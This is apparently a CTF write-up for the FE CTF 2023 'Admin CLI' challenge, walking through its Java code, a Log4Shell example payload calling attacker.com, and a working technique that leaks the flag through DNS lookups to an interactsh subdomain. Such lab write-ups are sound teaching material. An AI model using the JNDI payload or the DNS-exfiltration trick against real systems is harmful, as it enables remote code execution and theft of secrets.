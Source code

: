 ```yaml
---
title: 'FECTF 2023 Qualifiers Admin CLI writeup'
shortTitle: 'Admin CLI'
date: 2023-10-30
length: 6 min
author: Alexander
headline: Read a solution to Admin CLI in FE CTF 2023
---
```


> **Admin CLI**  
> A (very) early version of the administration tool used for FE-CTF was found. Looks like they only just started making it, but maybe it's already vulnerable?
>
> ```
> nc admin-cli.hack.fe-ctf.dk 1337
> ```
>
> [link to code]

---

<details>
<summary>Table of contents</summary>

- [The files](#the-files)
- [A red herring](#a-red-herring)
  - [How does Log4Shell work?](#how-does-log4shell-work)
- [The actual solution](#the-actual-solution)
- [Exploiting the server](#exploiting-the-server)

</details>

## The files

In the download we get the following 2 files.

<details>
<summary>Dockerfile</summary>

```Dockerfile
FROM ubuntu:22.04

RUN apt update -y
RUN apt install -y wget openjdk-19-jdk unzip socat

USER nobody

WORKDIR /tmp
RUN wget http://archive.apache.org/dist/logging/log4j/2.14.1/apache-log4j-2.14.1-bin.zip
RUN unzip apache-log4j-2.14.1-bin.zip

COPY Main.java .
RUN javac -cp '/tmp/apache-log4j-2.14.1-bin/log4j-api-2.14.1.jar:/tmp/apache-log4j-2.14.1-bin/log4j-core-2.14.1.jar' Main.java
CMD socat -v tcp-listen:1337,fork,reuseaddr system:"java -cp '.:/tmp/apache-log4j-2.14.1-bin/log4j-api-2.14.1.jar:/tmp/apache-log4j-2.14.1-bin/log4j-core-2.14.1.jar' Main",stderr
```

</details>
<details>
<summary>Main.java</summary>

```java
import java.util.Base64;
import java.net.MalformedURLException;
import java.net.URL;
import java.util.Scanner;
import org.apache.logging.log4j.Logger;
import org.apache.logging.log4j.Level;
import org.apache.logging.log4j.LogManager;
import org.apache.logging.log4j.core.config.Configurator;


public class Main {

	/* flag{....} */
	private static String API_KEY = Base64.getUrlEncoder().encodeToString(System.getenv("FLAG").getBytes());

	/* Doesn't seem to be authorized, I don't know why... */
	/* https://backend.fe-ctf.local/removePoints?teamId=0&amount=1000&key=api_key */
	private static int HASH_CODE = -615519892;

	/* Should be safe, right? */
	private static Logger logger = LogManager.getLogger(Main.class);

	public static void main(String[] args) {
		Configurator.setLevel(Main.class.getName(), Level.INFO);
		Scanner s = new Scanner(System.in);
		System.out.print("Enter URL: ");
		String input = s.nextLine();
		s.close();
		try {
			URL url = new URL(input.replaceAll("API_KEY", API_KEY));
			if (url.hashCode() == HASH_CODE && url.getHost().equals("backend.fe-ctf.local")) {
				logger.info("URLs Matched, sending request to {}", url);
				/* TODO: Figure out how to send request
				HttpURLConnection con = (HttpURLConnection) url.openConnection();
				con.setRequestMethod("GET")
				*/
			} else {
				logger.warn("URLs are not equal!");
			}
		} catch (MalformedURLException e) {
			logger.error("Invalid URL");
			System.exit(1);
		}
	}
}
```

</details>

This is a docker container that runs some server. When you netcat it, it asks for a URL. If `API_KEY` is present in the URL, it is replaced with a base64 encoding of the flag. Finally, if the url hash matches some hardcoded hash and domain, it is printed.

## A red herring

If you were on the internet in December of 2021, chances are you've heard of [Log4Shell](https://en.wikipedia.org/wiki/Log4j#Log4Shell_vulnerability), the Log4j RCE that affected every java-using company and their dog. The Dockerfile downloads Log4j version 2.14.1, and wouldn't you know, that's the vulnerable one.

### How does Log4Shell work?

Log4j is a logger that support various special syntaxes in the string. For example, `${java:version}` in a logged string would turn into the version of java used. One of these syntaxes allowed you to request resources from the internet: `${jndi:ldap://attacker.com/payload}`. If `payload` is a Java _class file_, the server will execute it.  
_Take a look at the [HackTricks page](https://book.hacktricks.xyz/pentesting-web/deserialization/jndi-java-naming-and-directory-interface-and-log4shell#log4shell-vulnerability) for more information._

Now to the logging part. The code only logs user input once it passes the hashcode check, which means that we not only have to create a url that matches the hardcoded hash, we also have to include a Log4Shell exploit. Hash collisions are possible, but very hard to pull off in practice, but let's look at the `java.net.URL` `hashCode` method anyway.

```java
protected int hashCode(URL u) {
    int h = 0;

    // Generate the protocol part.
    String protocol = u.getProtocol();
    if (protocol != null)
        h += protocol.hashCode();

    // Generate the host part.
    InetAddress addr = getHostAddress(u);
    [   ...   ]
```

Wait what? So to calculate the hashcode for a URL, Java _gets the IP_ of the host. Turns out that, for [legacy reasons](https://stackoverflow.com/a/2349535/9877700), the way Java determines if 2 URLs are the same is not by looking at the URL itself, but at the _resource_ the url points to. Since multiple domains can point to the same IP, Java decides to look up the IP.  
_HackTricks also has a [page](https://book.hacktricks.xyz/pentesting-web/deserialization/java-dns-deserialization-and-gadgetprobe) for this._

## The actual solution

To get the IP of a domain, Java needs to do a DNS request to said domain. We can listen for this using a tool like [CanaryTokens](https://canarytokens.org/). Simply generate a DNS token and pass it to the program:

```bash
┌──(color㉿COLORDESKTOP)-[~]
└─$ nc admin-cli.hack.fe-ctf.dk 1337
Enter URL: https://h3ft0p3s5pp6gk21b800tvl1f.canarytokens.com
10:05:12.820 [main] WARN  Main - URLs are not equal!
```

and a few seconds later...
![canarytoken email](/media/writeups/fectf23/admin-cli/canarytoken_email.png)

Perfect! This means we should be able to skip the Log4Shell exploit entirely and leak the flag in the DNS request! If we were to pass `https://API_KEY.token.canarytokens.com`, the server should replace `API_KEY` with the flag.  
Sadly, this doesn't work. CanaryTokens doesn't support wildcard subdomains, so the token isn't triggered.

Turns out there's a similar tool that _does_ in fact work with wildcard subdomains: [interactsh](https://github.com/projectdiscovery/interactsh). All we have to do is run the command...

```bash
┌──(color㉿COLORDESKTOP)-[~/go/bin]
└─$ ./interactsh-client
    _       __                       __       __
   (_)___  / /____  _________ ______/ /______/ /_
  / / __ \/ __/ _ \/ ___/ __ '/ ___/ __/ ___/ __ \
 / / / / / /_/  __/ /  / /_/ / /__/ /_(__  ) / / /
/_/_/ /_/\__/\___/_/   \__,_/\___/\__/____/_/ /_/

                projectdiscovery.io

[INF] Current interactsh version 1.1.7 (latest)
[INF] Listing 1 payload for OOB Testing
[INF] ckvo44rjtart315p97ngu7yq3azk3x51j.oast.live
```

...and we get a payload url. If we open it in a browser...

```bash
[ckvo44rjtart315p97ngu7yq3azk3x51j] Received DNS interaction (A) from 188.126.94.66 at 2023-10-30 10:15:25
[ckvo44rjtart315p97ngu7yq3azk3x51j] Received DNS interaction (A) from 188.126.94.66 at 2023-10-30 10:15:25
[ckvo44rjtart315p97ngu7yq3azk3x51j] Received DNS interaction (A) from 188.126.94.66 at 2023-10-30 10:15:25
[ckvo44rjtart315p97ngu7yq3azk3x51j] Received HTTP interaction from 188.126.94.88 at 2023-10-30 10:15:25
[ckvo44rjtart315p97ngu7yq3azk3x51j] Received HTTP interaction from 188.126.94.88 at 2023-10-30 10:15:26
```

...it gets logged. If we were to append a subdomain such as `flag.ckvo44rjtart315p97ngu7yq3azk3x51j.oast.live`...

```bash
[flag.ckvo44rjtart315p97ngu7yq3azk3x51j] Received DNS interaction (A) from 188.126.94.66 at 2023-10-30 10:16:17
[flag.ckvo44rjtart315p97ngu7yq3azk3x51j] Received DNS interaction (A) from 188.126.94.66 at 2023-10-30 10:16:17
[flag.ckvo44rjtart315p97ngu7yq3azk3x51j] Received HTTP interaction from 188.126.94.88 at 2023-10-30 10:16:18
[flag.ckvo44rjtart315p97ngu7yq3azk3x51j] Received HTTP interaction from 188.126.94.88 at 2023-10-30 10:16:18
```

...it gets logged too!

## Exploiting the server

Now all we have to do is send the payload to the server

```bash
┌──(color㉿COLORDESKTOP)-[~]
└─$ nc admin-cli.hack.fe-ctf.dk 1337
Enter URL: http://API_KEY.ckvo44rjtart315p97ngu7yq3azk3x51j.oast.live
10:17:31.110 [main] WARN  Main - URLs are not equal!
```

and we should get the base64 flag.

```bash
[ZmxhZ3tVTjNYUDNDVDNEXzNYRjFMVFI0VDEwTn0=.ckvo44rjtart315p97ngu7yq3azk3x51j] Received DNS interaction (A) from 172.253.248.37 at 2023-10-30 10:17:30
```

Decoding that...

```bash
┌──(color㉿COLORDESKTOP)-[~/go/bin]
└─$ echo "ZmxhZ3tVTjNYUDNDVDNEXzNYRjFMVFI0VDEwTn0=" | base64 -d
flag{UN3XP3CT3D_3XF1LTR4T10N}
```

...we've got a flag!

